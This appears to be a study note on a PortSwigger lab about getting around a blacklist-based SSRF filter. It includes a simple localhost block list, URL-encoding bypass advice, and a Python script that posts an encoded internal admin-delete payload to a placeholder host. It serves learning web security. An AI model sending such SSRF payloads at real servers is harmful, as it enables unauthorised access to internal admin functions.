

## Blacklist-Based Input Filtering

Blacklist-based input filtering is a technique used to prevent certain types of input from being processed. In the context of SSRF, blacklisting specific domains or IP addresses can help mitigate the risk of unauthorized access.

### Why Blacklist-Based Filtering Matters

Blacklist-based filtering is a common approach to securing web applications. However, it is not foolproof and can be bypassed using various techniques, including URL encoding and other obfuscation methods.

### How Blacklist-Based Filtering Works

Blacklist-based filtering involves maintaining a list of disallowed inputs and checking incoming data against this list. If the input matches any item on the blacklist, it is rejected.

#### Example of Blacklist-Based Filtering

Let's consider a web application that uses a blacklist to prevent SSRF attacks:

```python
blacklisted_domains = ["localhost", "127.0.0.1"]

def is_blacklisted(url):
    for domain in blacklisted_domains:
        if domain in url:
            return True
    return False

url = "http://localhost/admin/delete_user"
if is_blacklisted(url):
    print("Access denied: Blacklisted domain detected.")
else:
    print("Access granted.")
```

### Bypassing Blacklist-Based Filtering

Attackers can bypass blacklist-based filtering by using URL encoding or other obfuscation techniques. For example, the URL `http://localhost/admin/delete_user` can be encoded as `http%3A%2F%2Flocalhost%2Fadmin%2Fdelete_user`, which may not be caught by a simple blacklist check.

### Practical Example

Let's walk through the practical example provided in the transcript:

```python
import requests

# Define the vulnerable path
check_stock_path = "/product/stock"

# Define the parameters for the request
params = {
    "StockAPI": "127.1" + "%2Fadmin%2Fdelete%2Fusername%3DCarlos"
}

# Construct the full URL
full_url = "http://example.com" + check_stock_path

# Perform the POST request
response = requests.post(full_url, data=params)

# Print the response
print(response.text)
```

### Diagram: SSRF Attack Flow



---
<!-- nav -->
[[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/04-Lab 3 SSRF with blacklist based input filter/02-Lab Setup and Overview|Lab Setup and Overview]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/04-Lab 3 SSRF with blacklist based input filter/00-Overview|Overview]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/04-Lab 3 SSRF with blacklist based input filter/04-Common Pitfalls and Detection|Common Pitfalls and Detection]]
